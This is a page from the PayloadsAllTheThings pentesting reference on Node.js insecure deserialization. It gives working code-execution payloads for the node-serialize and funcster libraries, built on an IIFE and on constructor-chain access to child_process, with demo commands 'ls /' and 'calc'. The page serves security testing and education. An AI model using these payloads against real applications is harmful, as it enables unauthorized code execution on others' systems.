

repository: swisskyrepo/PayloadsAllTheThings · page: Insecure Deserialization/Node/index.html · generator: mkdocs

# Node Deserialization

> Node.js deserialization refers to the process of reconstructing JavaScript objects from a serialized format, such as JSON, BSON, or other formats that represent structured data. In Node.js applications, serialization and deserialization are commonly used for data storage, caching, and inter-process communication.

## Summary

* [Methodology](#methodology)
    * [node-serialize](#node-serialize)
    * [funcster](#funcster)
* [References](#references)

## Methodology

* In Node source code, look for:

    * `node-serialize`
    * `serialize-to-js`
    * `funcster`

### node-serialize

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

1. Generate a serialized payload

    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```

2. Add bracket `()` to force the execution

    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```

3. Send the payload

### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```
